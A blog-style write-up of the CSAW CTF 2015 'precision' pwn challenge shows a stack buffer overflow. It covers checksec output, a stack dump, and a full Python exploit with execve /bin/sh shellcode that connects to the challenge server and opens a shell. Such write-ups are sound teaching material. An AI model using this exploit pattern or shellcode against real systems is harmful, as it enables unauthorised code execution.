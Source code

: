 ```yaml
---
layout: post
title: "Writeup | CSAW CTF 2015 - Pwn - precision"
date: 2015-09-22 15:18:44 +0000
comments: true
categories: 
---
```


~~~
nc 54.210.15.77 1259
Updated again!
~~~
[precision_a8f6f0590c177948fe06c76a1831e650](https://ctf.isis.poly.edu/static/uploads/42bf99ba903b051923e707ba422f068a/precision_a8f6f0590c177948fe06c76a1831e650)

Download binary file, open with IDA and HexRay, i have:

![IDA](http://i.imgur.com/9J3MUqz.jpg)

Program prompts user to input a string, then saved to v4.
Seem like there is a buffer over flow here.
So, we should fill the junk data to the string then overwrite return address to execute shellcode.

Check security, using `checksec` in `gdb-peda`:

```
$ gdb precision
Reading symbols from precision...(no debugging symbols found)...done.
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

Nice.

Have a look at the below code again, we can calculate the length of string (0x80 or 128)

However, we have other issue. The program uses v5 to verify and avoid overflowing the buffer.
I use gdb-peda to view stack, find out the value which is used to verify.

```
gdb-peda$ x/80xw $sp
0xffffd5c0:     0x08048682      0xffffd5d8      0x00000002      0x00000000
0xffffd5d0:     0xffffd60e      0x00000001      0x41414141      0x41414141
0xffffd5e0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5f0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd600:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd610:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd620:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd630:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd640:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd650:     0x41414141      0x41414141      0x475a3100      0x40501555
0xffffd660:     0x00000000      0xf7fc8000      0x00000000      0xf7e29497  <- [return address]
0xffffd670:     0x00000001      0xffffd704      0xffffd70c      0x00000000
...
```

I use the following 24 bytes to append 128 junk bytes of payload
`0x475a31a5      0x40501555    0x00000000      0xf7fc8000      0x00000000     [new-return-address]`

What is 'new-return-address' ?
Do you remember the gift, which program give us everytime we try to run the binary ? It is address of first byte of payload. So, we can put our shellcode there, and put that address to `new-return-address`

Just some pieces of code more:

```
#!/usr/bin/env python 2.7

#from hexdump import hexdump
import socket
import telnetlib
import struct

p = lambda x: struct.pack("I", x)
P = lambda x: struct.unpack("I", x)
q = lambda x: struct.pack("<Q", x)

def interact():
    t = telnetlib.Telnet()
    t.sock = s
    t.interact()

def r_until(st, debug=False):
    ret = ""
    while st not in ret:
        lret = s.recv(8192)
        if debug and len(lret) > 0:
            print lret
        ret += lret
    return ret

if __name__ == '__main__':
    s = socket.create_connection(('54.173.98.115', '1259'))    
    data = s.recv(1024)
    addr = data[6:-1]
    
    shellcode =  "\x31\xc0\xb0\x30\x01\xc4\x30\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\xb0\xc0\xe8\x04\xcd\x80\xc0\xe8\x03\xcd\x80"
    junk = shellcode + '1' * (128 - len(shellcode))

    payload = junk + p(0x475a31a5) + p(0x40501555) + "\x00" * 4 + p(0xf7fc8000) + "\x00" * 4 + p(int(addr, 16))
    s.send(payload + '\n')
    interact()
```

Get your point !  

*Thanks for the great help from my brother*